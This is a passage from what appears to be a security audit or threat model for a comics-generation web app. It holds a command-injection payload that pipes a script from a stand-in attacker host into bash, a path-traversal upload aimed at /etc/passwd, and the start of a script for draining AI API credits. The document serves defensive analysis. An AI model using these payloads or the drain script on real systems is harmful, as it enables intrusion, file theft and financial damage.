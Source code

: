 
### Attack 2.3: Command Injection (if present)
**Attack Vector:** Authenticated  
**Complexity:** High  
**Impact:** Critical  
**MITRE ATT&CK:** T1059 (Command and Scripting Interpreter)

#### Description
If any server-side execution of user input exists (not found in current audit, but potential risk).

#### Attack Steps
```bash
# Hypothetical: If image processing uses external tools
POST /comics/generate-image
{
  "panelDescription": "test; curl https://attacker.com/shell.sh | bash"
}

# File upload exploitation
POST /upload
--boundary
Content-Disposition: form-data; name="file"; filename="../../etc/passwd"
```

---

## 3. Resource Exhaustion Attacks

### Attack 3.1: AI Credit Drain Attack
**Attack Vector:** Authenticated  
**Complexity:** Low  
**Impact:** High (Financial)  
**MITRE ATT&CK:** T1496 (Resource Hijacking)

#### Description
No rate limiting on AI generation endpoints allows attacker to drain OpenAI API credits rapidly.

#### Attack Steps

**Automated AI Credit Drain with Maximum Impact**
```bash
#!/bin/bash
# ai_credit_drain_optimized.sh - Maximum financial damage attack

TARGET_API="https://api.example.com"
TOKEN="stolen_or_legitimate_token"
PARALLEL_JOBS=100  # Number of simultaneous requests
LOG_FILE="drain_attack_$(date +%Y%m%d_%H%M%S).log"

echo "[+] Starting AI Credit Drain Attack"
echo "[+] Target: ${TARGET_API}"
echo "[+] Parallel jobs: ${PARALLEL_JOBS}"
echo "[+] Log file: ${LOG_FILE}"

# Track attack statistics
TOTAL_REQUESTS=0
SUCCESSFUL_REQUESTS=0
FAILED_REQUESTS=0
ESTIMATED_COST=0

# Function to generate expensive DALL-E image
generate_expensive_image() {
  local id=$1
```